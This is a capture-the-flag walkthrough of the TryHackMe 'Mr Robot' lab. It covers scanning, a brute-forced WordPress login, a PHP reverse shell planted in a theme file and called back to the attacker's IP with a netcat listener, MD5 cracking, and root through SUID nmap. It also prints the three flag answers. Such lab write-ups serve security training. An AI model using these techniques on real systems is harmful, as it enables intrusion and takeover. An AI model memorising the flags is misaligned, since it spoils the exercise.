

# TryHackMe [Mr Robot CTF](https://tryhackme.com/room/mrrobot)
### References
* Bloomberg, J. (2020, May 20). Unicornsec. Unicornsec. https://unicornsec.com/home/tryhackme-mr-robot-ctf
* DarkSec. (2020). TryHackMe Mr Robot Official Walkthrough [YouTube Video]. In YouTube. https://youtu.be/BQ4xeeNAbaw
* Dias, D. (2015, March 22). daviddias/node-dirbuster. GitHub. https://github.com/daviddias/node-dirbuster/blob/master/lists/directory-list-2.3-small.txt
* Pinna, E., & Cardaci, A. (2018). nmap. GTFOBins. https://gtfobins.github.io/gtfobins/nmap/
* pentestmonkey. (2015, May 29). pentestmonkey/php-reverse-shell. GitHub. https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
## Reconnaissance
* Scan the target with `nmap -sV -sC <MACHINE_IP>`:
  * Port `80` is open (probably for HTTP)
  * Port `443` is open (probably for HTTPS)
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-11 11:50 AEST
Nmap scan report for <MACHINE_IP>
Host is up (0.28s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.13 seconds
```
## What is key 1?
1. The website's `robots.txt`:
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
2. The website's `http://<MACHINE_IP>/key-1-of-3.txt` contains `073403c8a58a1f80d943455fb30724b9`
3. Download the website's password dictionary `http://<MACHINE_IP>/fsocity.dic` for later tasks.

**Answer**: `073403c8a58a1f80d943455fb30724b9`
## What is key 2?
1. Scan for valid HTTP endpoints with `gobuster dir -u http://<MACHINE_IP> -w $(pwd)/directory-list-2.3-small.txt -t 100 -q`:
```
/blog                 (Status: 301) [Size: 233] [--> http://<MACHINE_IP>/blog/]
/images               (Status: 301) [Size: 235] [--> http://<MACHINE_IP>/images/]
/sitemap              (Status: 200) [Size: 0]
/login                (Status: 302) [Size: 0] [--> http://<MACHINE_IP>/wp-login.php]
/video                (Status: 301) [Size: 234] [--> http://<MACHINE_IP>/video/]
/rss                  (Status: 301) [Size: 0] [--> http://<MACHINE_IP>/feed/]
/0                    (Status: 301) [Size: 0] [--> http://<MACHINE_IP>/0/]
/feed                 (Status: 301) [Size: 0] [--> http://<MACHINE_IP>/feed/]
/wp-content           (Status: 301) [Size: 239] [--> http://<MACHINE_IP>/wp-content/]
/image                (Status: 301) [Size: 0] [--> http://<MACHINE_IP>/image/]
/atom                 (Status: 301) [Size: 0] [--> http://<MACHINE_IP>/feed/atom/]
/admin                (Status: 301) [Size: 234] [--> http://<MACHINE_IP>/admin/]
/audio                (Status: 301) [Size: 234] [--> http://<MACHINE_IP>/audio/]
/intro                (Status: 200) [Size: 516314]
/css                  (Status: 301) [Size: 232] [--> http://<MACHINE_IP>/css/]
/wp-login             (Status: 200) [Size: 2606]
/rss2                 (Status: 301) [Size: 0] [--> http://<MACHINE_IP>/feed/]
/license              (Status: 200) [Size: 309]
/wp-includes          (Status: 301) [Size: 240] [--> http://<MACHINE_IP>/wp-includes/]
/js                   (Status: 301) [Size: 231] [--> http://<MACHINE_IP>/js/]
/Image                (Status: 301) [Size: 0] [--> http://<MACHINE_IP>/Image/]
/rdf                  (Status: 301) [Size: 0] [--> http://<MACHINE_IP>/feed/rdf/]
/page1                (Status: 301) [Size: 0] [--> http://<MACHINE_IP>/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/dashboard            (Status: 302) [Size: 0] [--> http://<MACHINE_IP>/wp-admin/]
```
1. Go to `http://<MACHINE_IP>/YOUR_IP>//wp-login.php`.
2. We can guess a username of `elliot`, the website's prompt suggests that it is a real username.
3. Remove duplicates from `fsocity.dic` with `sort fsocity.dic | uniq > fsocity.txt`.
4. Scan for valid a password for username `elliot` with `wpscan --url http://10.10.155.227 -t 50 -U elliot -P $(pwd)/fsocity.txt`.
```bash
[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - elliot / ER28-0652
All Found
Progress Time: 00:00:33 <=======================================> (9 / 22) 40.90%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: elliot, Password: ER28-0652
```
6. Login to the WordPress admin dashboard and go to the theme editor for the Archive PHP file.
7. Download the [PHP file](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) written by @pentestmonkey.
8. Modify the `$ip` variable to your TryHackMe IP address (green bubble on the navbar), and the `$port` variable to `443`.
```php
$ip = '<OPENVPN_IP>';
$port = 443;
```
9. Replace the contents of WordPress' `archive.php` with the contents of `php-reverse-shell.php`.
10. Run `sudo nc -lvnp 443` and leave process running.
11. Go to `http://<MACHINE_IP>/wp-content/themes/twentyfifteen/archive.php` and make sure the reverse shell is connected.
12. In the reverse shell's initial working directory, you can find the 2nd key (with insufficient read permissions) and the `robot` user's password hash.
```bash
$ cd /home/robot
$ ls -l
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
13. Use [CrackStation](https://crackstation.net/) to recover the password (`abcdefghijklmnopqrstuvwxyz`) from it's MD5 hash.

14. Switch to interactive shell with Python.
15. Login as the `robot` user.
16. Recover the 2nd key.
```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su robot
Password: abcdefghijklmnopqrstuvwxyz
robot@linux:~$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

**Answer**: `822c73956184f694993bede3eb39f959`
## What is key 3?
1. Look for binaries with unusual permissions
```bash
robot@linux:~$ find / -perm +6000 2>/dev/null | grep '/bin/'
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/mail-touchlock
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/chfn
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/expiry
/usr/bin/dotlockfile
/usr/bin/sudo
/usr/bin/ssh-agent
/usr/bin/wall
/usr/local/bin/nmap
```
2. According to [GFTOBins' `nmap`](https://gtfobins.github.io/gtfobins/nmap/) page can spawn a non-interactive reverse shell.
```sh
robot@linux:~$ /usr/local/bin/nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
```
3. As the `root` user, extract the 3rd key.
```bash
# cd /root
\# ls
firstboot_done  key-3-of-3.txt
\# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
**Answer**: `04787ddef27c3dee1ee161b21670b4e4`